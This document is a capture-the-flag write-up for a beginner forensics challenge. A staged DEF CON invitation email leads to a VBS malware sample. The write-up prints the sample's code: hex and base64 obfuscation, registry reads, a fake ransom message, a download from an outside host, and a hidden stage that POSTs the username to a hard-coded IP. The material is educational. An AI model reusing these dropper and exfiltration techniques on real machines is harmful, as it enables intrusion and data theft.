




## Writeup

While we didn't make it to Defcon finals, the results were pretty satisfying as a first-year merger team. I then thought of making this beginner friendly challenge as a tribute to that, also responding to the meme post event :)

### Initial analysis

The challenge is very straightforward. Follow the instructions, and do some APT analysis. Nothing guessy at all. We are provided with an attachment `DEFCON Finals Invitation.eml`, a typical email file. Let's just safely open it in Outlook and see what it looks like:



Checking plain text and the image, there seems to be a few intersting things and we can check them. There's no steg or weird cipher thing.

- The social medias point to https://twitter.com/ProjectSekaiCTF, https://linkedin.com/company/project-sekai-ctf, and https://sekai.team, which are just our self-promotions.
- Official DEF CON website points to https://defcon.org/ which is again valid.
- The only suspicious thing remains to be the `dc31-invite.ics` calendar event attachment. Let's check it out.



> Visit Venue Maps if you don't wish to get lost. You can also subscribe to our newsletter.

The "Venue Maps" seems harmless and it points to https://storage.googleapis.com/defcon-nautilus/venue-guide.html, seems a legit *Nautilus* hosted static website. Now if we open this, except seeing the "Caesars Forum Venue Map", this website is actually attempting to download some file `venue-map.png` if you click the download button. Fortunately, Chrome has full name displayed and blocks it automatically. Sus vbs file.


### VBS Analysis

Now let's download this vbs file in VM and analyze it. You could dynamically analyze the malware sample with tools such as [ANY.RUN](https://any.run/). But since it's meant to be a beginner challenge, directly analyzing the code is easy enough.

First of all, if you directly run the vbs, it pops up a lot of windows warning you get hacked and ask you for bitcoin transfer. This is just a distraction. After popping up the bitcoin window, shortly it pops up another window on event completion. If we use some network interception tool, we can actually observe some network traffic, but we can ignore this for now and start reading the code.

First part has some calculation logic, which turns out to be MD5.

Next part consists of a lot of random comments, with a function in between:

```vbscript
Function OwOwO(h)
  Dim a : a = Split(h)
  Dim i
  For i = 0 To UBound(a)
      a(i) = Chr("&H" & a(i))
  Next
  OwOwO = Join(a, "")
End Function
```

We can give it a run on VBS editor, it converts hex to ascii. Next part:

```vbscript
Function Nautilus(ByVal sBase64EncodedText, ByVal fIsUtf16LE)
    Dim sTextEncoding
    if fIsUtf16LE Then sTextEncoding = "utf-16le" Else sTextEncoding = "utf-8"
    With CreateObject("Msxml2.DOMDocument").CreateElement("aux")
        .DataType = "bin.base64"
        .Text = sBase64EncodedText
        Nautilus = BUtil(.NodeTypedValue, sTextEncoding)
    End With
End Function
```

The function is basically a base64 decoder. Next part:

```vbscript
function BUtil(ByVal byteArray, ByVal sTextEncoding)
    If LCase(sTextEncoding) = "utf-16le" then
        BUtil = CStr(byteArray)
    Else
        With CreateObject("ADODB.Stream")
            .Type = 1
            .Open
            .Write byteArray
            .Position = 0
            .Type = 2
            .CharSet = sTextEncoding
            BUtil = .ReadText
            .Close
        End With
    End If
end function
```

This function is a byte array to string converter. Next part:

```vbscript
Function XA3bVjQ3(A0CQ5, B9HW3)
    Dim nFBRW6, X7IDP
    On Error Resume Next
    Set nFBRW6 = CreateObject(StRREverse("llehS.tpircSW"))
    X7IDP = nFBRW6.RegRead(A0CQ5)
    If err.number <> 0 Then
        xA3bVjQ3 = B9HW3
    Else
        xA3bVjQ3 = X7IDP
    End If
    Set nFBRW6 = Nothing
End Function

strComputer = "."
 
Set oReg=GetObject("winmgmts:{impersonationLevel=impersonate}!\\" & _ 
    strComputer & "\root\default:StdRegProv")
 
strKeyPath = "SYSTEM\CurrentControlSet\Control"
strUser = CreateObject("WScript.Network").UserName

oReg.EnumValues HKEY_LOCAL_MACHINE, strKeyPath, _
    arrValueNames, arrValueTypes

res = Msgbox("Hi " & strUser & ", your data have been compromised!", vbOKCancel+vbCritical, "")

For jj=0 To UBound(arrValueNames)
    Select Case arrValueTypes(jj)
        Case REG_SZ, REG_EXPAND_SZ, REG_DWORD
            str = XA3bVjQ3("HKLM\" & strKeyPath & "\" & arrValueNames(jj), "dummy")
            res = Msgbox(arrValueNames(jj) & " LEAKED: " & str, vbOKCancel+vbCritical, "")
    End Select 
Next

res = Msgbox("Please transfer BTC to 0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB to receive decrypted data...", vbOKOnly+vbInformation, "")
```

Apparently this corresponds to the first half upon executing the script: shows you your personal data is "leaked" (it is actually reading your registry and printing on screen its MD5 value) and asks for BTC transfer. This part has nothing interesting. The next section is definitely crucial:

```vbscript
ewkjunfw = Replace("long_str", "IlllIllIIIllllIllII", " ")

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", OwOwO(ewkjunfw), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile Nautilus(StRREVErsE(replace("=QWZ###############_###lWbvJHct92Yucmbw5yZhxmZt42bjZWZkxFctVGdcp###############_###Y", "###############_###", "z")), False), 2
end with
```

There's a long string where we replace `IlllIllIIIllllIllII` with a space. Then, we call `OwOwO(ewkjunfw)` which converts it from hex to ascii, and HTTP GET that. Using [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'IlllIllIIIllllIllII'%7D,'',true,false,true,false)From_Hex('None')&input=NjhJbGxsSWxsSUlJbGxsbElsbElJNzRJbGxsSWxsSUlJbGxsbElsbElJNzRJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJNzNJbGxsSWxsSUlJbGxsbElsbElJM2FJbGxsSWxsSUlJbGxsbElsbElJMmZJbGxsSWxsSUlJbGxsbElsbElJMmZJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJNmZJbGxsSWxsSUlJbGxsbElsbElJNzdJbGxsSWxsSUlJbGxsbElsbElJNmVJbGxsSWxsSUlJbGxsbElsbElJNmNJbGxsSWxsSUlJbGxsbElsbElJNmZJbGxsSWxsSUlJbGxsbElsbElJNjFJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJMzFJbGxsSWxsSUlJbGxsbElsbElJMzZJbGxsSWxsSUlJbGxsbElsbElJMzRJbGxsSWxsSUlJbGxsbElsbElJMzdJbGxsSWxsSUlJbGxsbElsbElJMmVJbGxsSWxsSUlJbGxsbElsbElJNmRJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJNjlJbGxsSWxsSUlJbGxsbElsbElJNjFJbGxsSWxsSUlJbGxsbElsbElJNjZJbGxsSWxsSUlJbGxsbElsbElJNjlJbGxsSWxsSUlJbGxsbElsbElJNzJJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJMmVJbGxsSWxsSUlJbGxsbElsbElJNjNJbGxsSWxsSUlJbGxsbElsbElJNmZJbGxsSWxsSUlJbGxsbElsbElJNmRJbGxsSWxsSUlJbGxsbElsbElJMmZJbGxsSWxsSUlJbGxsbElsbElJNmNJbGxsSWxsSUlJbGxsbElsbElJMzFJbGxsSWxsSUlJbGxsbElsbElJMzhJbGxsSWxsSUlJbGxsbElsbElJMzhJbGxsSWxsSUlJbGxsbElsbElJNzVJbGxsSWxsSUlJbGxsbElsbElJMzJJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJMzVJbGxsSWxsSUlJbGxsbElsbElJMzNJbGxsSWxsSUlJbGxsbElsbElJMzJJbGxsSWxsSUlJbGxsbElsbElJNzFJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJMzNJbGxsSWxsSUlJbGxsbElsbElJNjZJbGxsSWxsSUlJbGxsbElsbElJNGZJbGxsSWxsSUlJbGxsbElsbElJNmZJbGxsSWxsSUlJbGxsbElsbElJNGNJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJNjlJbGxsSWxsSUlJbGxsbElsbElJNmNJbGxsSWxsSUlJbGxsbElsbElJNjNJbGxsSWxsSUlJbGxsbElsbElJNDlJbGxsSWxsSUlJbGxsbElsbElJMzhJbGxsSWxsSUlJbGxsbElsbElJMzlJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJMzBJbGxsSWxsSUlJbGxsbElsbElJNWZJbGxsSWxsSUlJbGxsbElsbElJNjhJbGxsSWxsSUlJbGxsbElsbElJMzRJbGxsSWxsSUlJbGxsbElsbElJNDVJbGxsSWxsSUlJbGxsbElsbElJMzBJbGxsSWxsSUlJbGxsbElsbElJNjNJbGxsSWxsSUlJbGxsbElsbElJNDdJbGxsSWxsSUlJbGxsbElsbElJNGNJbGxsSWxsSUlJbGxsbElsbElJNmFJbGxsSWxsSUlJbGxsbElsbElJNmJJbGxsSWxsSUlJbGxsbElsbElJNWZJbGxsSWxsSUlJbGxsbElsbElJNzVJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJNDJJbGxsSWxsSUlJbGxsbElsbElJNTVJbGxsSWxsSUlJbGxsbElsbElJNjlJbGxsSWxsSUlJbGxsbElsbElJNjFJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJMzdJbGxsSWxsSUlJbGxsbElsbElJNDVJbGxsSWxsSUlJbGxsbElsbElJNWZJbGxsSWxsSUlJbGxsbElsbElJNzJJbGxsSWxsSUlJbGxsbElsbElJNGRJbGxsSWxsSUlJbGxsbElsbElJNWFJbGxsSWxsSUlJbGxsbElsbElJMmRJbGxsSWxsSUlJbGxsbElsbElJNDhJbGxsSWxsSUlJbGxsbElsbElJMzVJbGxsSWxsSUlJbGxsbElsbElJMmRJbGxsSWxsSUlJbGxsbElsbElJNmRJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJMzlJbGxsSWxsSUlJbGxsbElsbElJNGJJbGxsSWxsSUlJbGxsbElsbElJNzJJbGxsSWxsSUlJbGxsbElsbElJMzlJbGxsSWxsSUlJbGxsbElsbElJNTNJbGxsSWxsSUlJbGxsbElsbElJNTFJbGxsSWxsSUlJbGxsbElsbElJNGNJbGxsSWxsSUlJbGxsbElsbElJNTZJbGxsSWxsSUlJbGxsbElsbElJNTFJbGxsSWxsSUlJbGxsbElsbElJNjFJbGxsSWxsSUlJbGxsbElsbElJNGJJbGxsSWxsSUlJbGxsbElsbElJNTNJbGxsSWxsSUlJbGxsbElsbElJNjlJbGxsSWxsSUlJbGxsbElsbElJNGJJbGxsSWxsSUlJbGxsbElsbElJNjNJbGxsSWxsSUlJbGxsbElsbElJNDVJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJNGFJbGxsSWxsSUlJbGxsbElsbElJNGZJbGxsSWxsSUlJbGxsbElsbElJMmRJbGxsSWxsSUlJbGxsbElsbElJNDVJbGxsSWxsSUlJbGxsbElsbElJNmJJbGxsSWxsSUlJbGxsbElsbElJNjZJbGxsSWxsSUlJbGxsbElsbElJNTRJbGxsSWxsSUlJbGxsbElsbElJNTNJbGxsSWxsSUlJbGxsbElsbElJNTVJbGxsSWxsSUlJbGxsbElsbElJNzFJbGxsSWxsSUlJbGxsbElsbElJNTdJbGxsSWxsSUlJbGxsbElsbElJNmNJbGxsSWxsSUlJbGxsbElsbElJNzJJbGxsSWxsSUlJbGxsbElsbElJNGVJbGxsSWxsSUlJbGxsbElsbElJMzZJbGxsSWxsSUlJbGxsbElsbElJNTNJbGxsSWxsSUlJbGxsbElsbElJN2FJbGxsSWxsSUlJbGxsbElsbElJNThJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJNDlJbGxsSWxsSUlJbGxsbElsbElJMzBJbGxsSWxsSUlJbGxsbElsbElJNGNJbGxsSWxsSUlJbGxsbElsbElJNTlJbGxsSWxsSUlJbGxsbElsbElJNDJJbGxsSWxsSUlJbGxsbElsbElJNjhJbGxsSWxsSUlJbGxsbElsbElJMmRJbGxsSWxsSUlJbGxsbElsbElJNDZJbGxsSWxsSUlJbGxsbElsbElJMzVJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNmRJbGxsSWxsSUlJbGxsbElsbElJMzRJbGxsSWxsSUlJbGxsbElsbElJNDlJbGxsSWxsSUlJbGxsbElsbElJNDFJbGxsSWxsSUlJbGxsbElsbElJMzRJbGxsSWxsSUlJbGxsbElsbElJNjlJbGxsSWxsSUlJbGxsbElsbElJNThJbGxsSWxsSUlJbGxsbElsbElJMzNJbGxsSWxsSUlJbGxsbElsbElJNzRJbGxsSWxsSUlJbGxsbElsbElJNGZJbGxsSWxsSUlJbGxsbElsbElJNDlJbGxsSWxsSUlJbGxsbElsbElJNDdJbGxsSWxsSUlJbGxsbElsbElJNjhJbGxsSWxsSUlJbGxsbElsbElJMzBJbGxsSWxsSUlJbGxsbElsbElJNDVJbGxsSWxsSUlJbGxsbElsbElJNmFJbGxsSWxsSUlJbGxsbElsbElJMzRJbGxsSWxsSUlJbGxsbElsbElJMzZJbGxsSWxsSUlJbGxsbElsbElJNDdJbGxsSWxsSUlJbGxsbElsbElJNmNJbGxsSWxsSUlJbGxsbElsbElJNzdJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJNGNJbGxsSWxsSUlJbGxsbElsbElJNGZJbGxsSWxsSUlJbGxsbElsbElJNjZJbGxsSWxsSUlJbGxsbElsbElJNTRJbGxsSWxsSUlJbGxsbElsbElJMzhJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJN2FJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJNzVJbGxsSWxsSUlJbGxsbElsbElJNzlJbGxsSWxsSUlJbGxsbElsbElJMzlJbGxsSWxsSUlJbGxsbElsbElJMzFJbGxsSWxsSUlJbGxsbElsbElJNTVJbGxsSWxsSUlJbGxsbElsbElJNzRJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNmFJbGxsSWxsSUlJbGxsbElsbElJMzFJbGxsSWxsSUlJbGxsbElsbElJNzJJbGxsSWxsSUlJbGxsbElsbElJMzJJbGxsSWxsSUlJbGxsbElsbElJNDlJbGxsSWxsSUlJbGxsbElsbElJMzBJbGxsSWxsSUlJbGxsbElsbElJNmFJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJMzdJbGxsSWxsSUlJbGxsbElsbElJNTlJbGxsSWxsSUlJbGxsbElsbElJNzNJbGxsSWxsSUlJbGxsbElsbElJNTVJbGxsSWxsSUlJbGxsbElsbElJNGVJbGxsSWxsSUlJbGxsbElsbElJNjNJbGxsSWxsSUlJbGxsbElsbElJNzNJbGxsSWxsSUlJbGxsbElsbElJNzNJbGxsSWxsSUlJbGxsbElsbElJNTBJbGxsSWxsSUlJbGxsbElsbElJNzRJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJMzVJbGxsSWxsSUlJbGxsbElsbElJMzBJbGxsSWxsSUlJbGxsbElsbElJMzhJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJNzNJbGxsSWxsSUlJbGxsbElsbElJNmJJbGxsSWxsSUlJbGxsbElsbElJNTdJbGxsSWxsSUlJbGxsbElsbElJNTJJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJNmJJbGxsSWxsSUlJbGxsbElsbElJNDFJbGxsSWxsSUlJbGxsbElsbElJNDlJbGxsSWxsSUlJbGxsbElsbElJMmZJbGxsSWxsSUlJbGxsbElsbElJNzlJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNjFJbGxsSWxsSUlJbGxsbElsbElJMzVJbGxsSWxsSUlJbGxsbElsbElJMzNJbGxsSWxsSUlJbGxsbElsbElJMzVJbGxsSWxsSUlJbGxsbElsbElJNjhJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJMzNJbGxsSWxsSUlJbGxsbElsbElJMzJJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJNmRJbGxsSWxsSUlJbGxsbElsbElJNzZJbGxsSWxsSUlJbGxsbElsbElJMmZJbGxsSWxsSUlJbGxsbElsbElJNjRJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNjZJbGxsSWxsSUlJbGxsbElsbElJNjNJbGxsSWxsSUlJbGxsbElsbElJNmZJbGxsSWxsSUlJbGxsbElsbElJNmVJbGxsSWxsSUlJbGxsbElsbElJMmRJbGxsSWxsSUlJbGxsbElsbElJNjZJbGxsSWxsSUlJbGxsbElsbElJNmNJbGxsSWxsSUlJbGxsbElsbElJNjFJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJMmVJbGxsSWxsSUlJbGxsbElsbElJNzBJbGxsSWxsSUlJbGxsbElsbElJNmVJbGxsSWxsSUlJbGxsbElsbElJNjdJbGxsSWxsSUlJbGxsbElsbElJMmVJbGxsSWxsSUlJbGxsbElsbElJNThJbGxsSWxsSUlJbGxsbElsbElJNGZJbGxsSWxsSUlJbGxsbElsbElJNTJJbGxsSWxsSUlJbGxsbElsbElJNjVJbGxsSWxsSUlJbGxsbElsbElJNjQ) we got it decoded to `https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed`. This is saved in `Nautilus(StRREVErsE(replace("=QWZ###############_###lWbvJHct92Yucmbw5yZhxmZt42bjZWZkxFctVGdcp###############_###Y", "###############_###", "z")), False)`, which runs and [decodes](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%23%23%23%23%23%23%23%23%23%23%23%23%23%23%23_%23%23%23'%7D,'z',true,false,true,false)Reverse('Character')From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=PVFXWiMjIyMjIyMjIyMjIyMjI18jIyNsV2J2SkhjdDkyWXVjbWJ3NXlaaHhtWnQ0MmJqWldaa3hGY3RWR2RjcCMjIyMjIyMjIyMjIyMjI18jIyNZ) to `c:\temp\defcon-flag.png.compromised`.

We can either download that file from `mediafire` if your VM blocks the download and save attempt, or just check out the folder for `defcon-flag.png.compromised`. What is important is that original file name is called `defcon-flag.png.XORed`, indicating that this image file seems to be "encrypted" with XOR. 

At this stage, it seems we can play around with png file format and recover the original image? We can try XOR this image with png magic bytes `89 50 4E 47 0D 0A 1A 0A` first:



It indeed gets a readable string! But not even close, there's more to the key. At this stage, we should remember the last part of vbscript hasn't been analysed. The code is obfuscated. It starts with a long `Execute(...)` statement. You can change `Execute` to `WScript.Echo` and then all you need to do is to run the source code which should print out the original un-obfuscated VBS source. (Reference: https://isvbscriptdead.com/vbs-obfuscator/).

```vbscript
Dim http: Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"

With http
  Call .Open("POST", url, False)
  Call .SetRequestHeader("Content-Type", "application/json")
  Call .Send("{""username"":""" & strUser & """}")
End With

res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
```

Great, some new info...A `POST` request is sent to `http://20.106.250.46/sendUserData` endpoint with json payload `{"username":"<username>"}`. We can try to send a request to this endpoint with `curl`:

```bash
$ curl -X POST -H "Content-Type: application/json" -d '{"username":"test"}' http://20.106.250.46/sendUserData
{"key":"compromised","msg":"Not admin!"}
```

Oops, seems we are not `admin`! Try again with `admin`:

```bash
$ curl -X POST -H "Content-Type: application/json" -d '{"username":"admin"}' http://20.106.250.46/sendUserData
{"key":"02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY","msg":"Data compromised!"}
```

Bingo! The key is `02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY` and its prefix matches what we found before. Now we just XOR the encrypted png with this key for the final image:



Meme image comes up, so is our flag!

`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`